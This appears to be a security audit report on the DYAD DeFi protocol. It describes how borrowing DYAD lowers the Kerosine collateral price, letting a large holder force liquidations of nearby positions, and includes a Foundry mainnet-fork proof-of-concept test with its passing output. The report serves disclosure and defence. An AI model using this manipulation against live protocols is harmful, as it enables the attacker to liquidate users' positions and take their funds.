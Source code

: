 # The Kerosine can be manipulated downwards with own funds

## Impact
The price of kerosine can't be trusted. Users with kerosine collateral can be liquidated if close but still above the minimum CR.

## Severity
Likelihood: High - There are no preconditions.
Impact: High - Core invariant broken.
Severity: High

The protocol states that for this codebase "The main reason is the need for a flash loan protection which makes it harder to manipulate the deterministic Kerosene price". This finding shows that the kerosine price can be manipulated downwards with own funds.

## Description
In VaultManagerV2.sol#L143 we have a condition to revert withdrawals if the deposit was made in the same block. This stops users from depositing and withdrawing in the same block to manipulate the price of kerosine.

However, the formula to calculate the price of kerosine in Vault.kerosine.unbounded.sol#L67 is based on both the TVL of the non-kerosine vaults and the DYAD supply. If a user has a large enough position, they can manipulate the price of kerosine downwards with their own funds by borrowing DYAD.

Manipulators risk no funds, as they can just borrow DYAD and repay it in the same transaction. Their only cost is the opportunity cost that of keeping collateral in the protocol.

The position holder can keep a large position without debt to artificially inflate the price of kerosine. Then, as users depend on this inflated price and create positions, the manipulator can calculate when anyone is close enough to the minimum CR so that they can borrow to the necessary level to liquidate the victim.

Given that [DYAD has a $23M TVL](https://defillama.com/protocol/dyad), attackers with as little as $1M can have a sizable impact on the price of kerosine.

## Proof of Concept
Insert the following test into `test/fork/v2.t.sol`, and run it on a mainnet fork:

```
  function testMintLowersKerosinePrice_Debug() public {
    // We license the vault manager to be able to mint DYAD
    vm.prank(MAINNET_OWNER);
    Licenser(contracts.vaultLicenser).add(address(contracts.vaultManager));

    // Add the vault manager to the OLD licenser to allow minting DYAD
    vm.prank(MAINNET_OWNER);
    Licenser(0xd8bA5e720Ddc7ccD24528b9BA3784708528d0B85).add(address(contracts.vaultManager));

    DNft dNft = DNft(MAINNET_DNFT);
    
    // We reset the DNft contract to be able to mint free DNfts
    vm.etch(address(MAINNET_DNFT), address(new DNft()).code);
    dNft = DNft(MAINNET_DNFT);

    // We patch the Unbounded Kerosine Vault so that it doesn't count the v1 DYAD
    vm.etch(
      address(contracts.unboundedKerosineVault),
      address(
        new UnboundedKerosineVaultFixed(
          contracts.vaultManager,
          Kerosine(MAINNET_KEROSENE), 
          Dyad    (MAINNET_DYAD),
          contracts.kerosineManager
        )
      ).code
    );

    uint id = dNft.mintNft(address(this));

    // Obtain weth
    vm.prank(MAINNET_WETH); // deal not working for me
    ERC20(MAINNET_WETH).transfer(address(this), 1 ether);

    // Add the weth vault and deposit 1 eth    
    contracts.vaultManager.add(id, address(contracts.ethVault));
    ERC20(MAINNET_WETH).approve(address(contracts.vaultManager), 1 ether);
    contracts.vaultManager.deposit(id, address(contracts.ethVault), 1 ether);

    // Measure kerosine price at rest
    uint kerosinePriceBefore = contracts.unboundedKerosineVault.assetPrice();
    console2.log("Kerosine price at rest: %s", displayDecimals(kerosinePriceBefore, 18));

    // Mint dyad
    contracts.vaultManager.mintDyad(id, 1000 ether, address(this));

    // Lowered kerosine price
    uint kerosinePriceAfter = contracts.unboundedKerosineVault.assetPrice();
    console2.log("Kerosine price after mint: %s", displayDecimals(kerosinePriceAfter, 18));

    // Success!
    assertLt(kerosinePriceAfter, kerosinePriceBefore);
  }
```

The test will succeed, having lowered the kerosine price.

```
Ran 1 test for test/fork/v2.t.sol:PoCs
[PASS] testMintLowersKerosinePrice_Debug() (gas: 4053747)
Logs:
  Kerosine price at rest: 0,000000000000001423
  Kerosine price after mint: 0,000000000000000919
```

## Recommendation
I can't think of a great solution for this, short of implementing a TWAP for kerosine. Even in that case, the malicious whale could keep their debt for a few blocks to wait for the price to drop.
